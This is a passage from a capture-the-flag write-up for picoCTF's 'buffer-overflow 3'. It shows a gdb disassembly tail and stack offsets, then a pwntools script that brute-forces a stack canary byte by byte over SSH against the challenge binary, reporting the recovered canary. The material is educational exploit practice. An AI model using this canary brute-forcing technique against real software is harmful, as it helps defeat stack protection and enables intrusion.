 ```gdb
   0x080488b0 <+237>: nop
   0x080488b1 <+238>: leave  
   0x080488b2 <+239>: ret    
End of assembler dump.
```

We can see that ```buf``` is at $ebp-0x30, and ```canary``` is at $ebp-0x10. We start override from the 33rd byte.

Lets brute force the canary:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

canary = ''

if not debug:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f')

while len(canary) < 4:
  for i in range(256):
    if debug:
      p = process('./vuln')
    else:
      p = s.process('./vuln')

    p.recvuntil('> ')
    p.sendline('{}'.format(32 + 1 + len(canary)))
    p.recvuntil('> ')
    p.sendline('A' * 32 + canary + '{}'.format(chr(i)))
    l = p.recvline()

    if '*** Stack Smashing Detected' not in l:
      canary += chr(i)

      log.info('Partial canary: {}'.format(canary))
      
      break

log.info('Found canary: {}'.format(canary))
```

Found canary: ```4xV,```
